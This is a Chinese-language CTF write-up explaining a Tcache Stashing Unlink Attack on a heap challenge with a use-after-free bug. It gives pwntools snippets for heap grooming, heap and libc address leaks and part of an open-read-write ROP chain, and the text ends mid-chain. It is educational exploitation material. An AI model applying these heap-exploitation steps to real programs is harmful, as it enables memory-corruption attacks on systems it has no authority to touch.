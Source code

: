 我们的重点是看Tcache Stashing Unlink Attack的利用方式，那么我们就用几句简单的话来描述这个程序的漏洞：

```php
保护出了canary之外全部开启，有增查删改，在free中没有将指针置零说明存在Use After Free漏洞，所以这个uaf非常容易利用。在add功能的时候分配堆块的时候是calloc()函数，在其申请的过程中会将chunk内的内容清空，还有我们之前说过的不会从tcache bin中取出这样的话只要是把Tcache bin中填满就可以正常利用了。开启了沙箱。
```

然后程序还留了后门，只要满足条件就可以。

利用过程
----

### 获得unsorted bin

首先我们先填满0x100的tcache bin的堆块链表，然后获得0x410的unsorted bin chunk

```python
    for i in range(8):
        add(i,4,'a')
    for i in range(8,14):
        add(i,2,'b')
    for i in range(14):
        delete(i)
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0bc4e009836d81261619231fe2be85f222b5e490.png)

### leak\_heap

因为我们得到了tcache bin链，这就很好也可以泄露出heap地址

```python
    show(1)
    heap_addr = uu64(ru('\x0a'))
    print('heap_addr='+hex(heap_addr))
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-22f7fabd3d43e06a6a86bf3ccb4e1ac1e52ecf86.png)

### leak\_libc

也有unsorted bin，那么也可以同理泄露出libc

```python
    show(7)
    libc = uu64(ru('\x0a')[-6:]) - 0x7fd1a23ddca0 + 0x7fd1a1ff2000
    print(hex(libc))
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-127dc50f5165cee40b8bdb88c4ef3ef89b15b34a.png)

### 构造orw链

```python
    pop_rdi = libc_base + 0x0000000000026542
    pop_rsi = libc_base + 0x0000000000026f9e
    pop_rdx = libc_base + 0x000000000012bda6
    leave_ret = libc_base + 0x0000000000058373
    opens = libc.sym['open']
    read = libc.sym['read']
    puts = libc.sym['puts']
    open_addr = libc_base + opens
    read_addr = libc_base + read
    puts_addr = libc_base + puts
    orw_addr = heap_addr + 0x1F80
    flag_addr = orw_addr + 0x78
    orw = p64(pop_rdi) + p64(flag_addr) + p64(pop_rsi) + p64(0) + p64(open_addr)
```